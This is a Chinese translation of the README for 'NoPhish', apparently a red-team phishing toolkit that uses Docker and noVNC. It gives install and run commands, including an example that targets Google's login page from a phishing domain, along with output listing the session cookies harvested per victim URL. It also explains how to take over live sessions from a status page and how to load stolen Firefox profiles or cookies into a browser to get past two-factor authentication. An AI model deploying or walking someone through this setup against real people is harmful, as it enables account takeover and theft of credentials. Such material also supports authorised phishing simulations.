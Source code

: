 # NoPhish

另一个基于 Docker 和 noVNC 的钓鱼工具包。整个设置基于 [mrd0x](https://mrd0x.com/bypass-2fa-using-novnc/) 和 [fhlipzero](https://fhlipzero.io/blogs/6_noVNC/noVNC.html) 的初始文章。

详细的设置说明可以在这里找到 - [另一个钓鱼工具](https://powerseb.github.io/posts/Another-phishing-tool/)

## 安装

确保已安装并运行 Docker。

安装所需的 Python 模块：

```console
pip install lz4
```
安装设置（这将创建所需的 Docker 镜像）：


```console
setup.sh install
```

## 执行

该设置提供以下参数：

```console
Usage: ./setup.sh -u No. Users -d Domain -t Target
         -u Number of users - please note for every user a container is spawned so don't go crazy
         -d Domain which is used for phishing
         -t Target website which should be displayed for the user
         -e Export format
         -s true / false if ssl is required - if ssl is set crt and key file are needed
         -c Full path to the crt file of the ssl certificate
         -k Full path to the key file of the ssl certificate
         -a Adjust default user agent string
         -z Compress profile to zip - will be ignored if parameter -e is set
         -p Additional URL parameters - if not set generic URL will be generated

```
基本运行示例如下：


```console
./setup.sh -u 4 -t https://accounts.google.com -d hello.local 
```
在运行过程中，以下概览提供了每个 URL 收集了多少 Cookie 或会话信息的状态。


```console
...
[-] Starting Loop to collect sessions and cookies from containers
    Every 60 Seconds Cookies and Sessions are exported - Press [CTRL+C] to stop..
For the url http://hello.local/v1/oauth2/authorize?access-token=b6f13b93-1b51-41c4-b8b4-b07932a45bd6 :
-  0  cookies have been collected.
-  5  session cookies have been collected.
For the url http://hello.local/v2/oauth2/authorize?access-token=fd54dbec-c057-4f46-8657-c0283e5661d9 :
-  0  cookies have been collected.
-  5  session cookies have been collected.
For the url http://hello.local/v3/oauth2/authorize?access-token=9d606939-b805-4c65-9e98-2624de2cd431 :
-  0  cookies have been collected.
-  5  session cookies have been collected.
For the url http://hello.local/v4/oauth2/authorize?access-token=84b8d725-7e87-439e-8629-53332092b68f :
-  0  cookies have been collected.
-  5  session cookies have been collected.
```
请注意，即使未成功登录，该工具也会导出所有的 Cookie / 会话信息。

此外，您还可以直接在状态页面 `http(s)://%DOMAIN%:65534/status.php` 上与工具交互。您可以在此断开用户连接并直接接管会话。

在当前版本的工具中，每个用户会启动两个容器——一个用于桌面设备，一个用于移动设备。根据用户代理，目标会被重定向到合适的容器。移动容器的输出名称以 "m" 开头（例如 mphis1-ffprofile）。

## 使用配置文件导出
如果您使用完整的 FireFox 配置文件导出，可以直接用 -profile 参数调用 firefox，如下所示：

在 Windows 上：
`& 'C:\Program Files\Mozilla Firefox\firefox.exe' -profile <PathToProfile>\phis1-ffprofile\`

在 Linux 上：
`firefox-esr -profile <PathToProfile>/phis1-ffprofile --allow-downgrade`

所有内容都会被恢复，包括最新访问的网站。

请注意，默认情况下您需要解压 zip 压缩包，或将参数 `-z` 设为 `false`。如果选择导出格式 `-e simple`，将生成两个 json 文件，可用于 Cookiebro，该插件在 [Firefox](https://addons.mozilla.org/de/firefox/addon/cookiebro/) 和 [Chrome](https://chrome.google.com/webstore/detail/cookiebro/lpmockibcakojclnfmhchibmdpmollgn) 上均可使用。

## 清理

运行过程中，脚本可通过 `ctrl` + `c` 终止——所有运行中的 docker 容器将被删除。要完全移除设置，请运行 `setup.sh cleanup`。




---

Tranlated By [Open Ai Tx](https://github.com/OpenAiTx/OpenAiTx) | Last indexed: 2025-07-29

---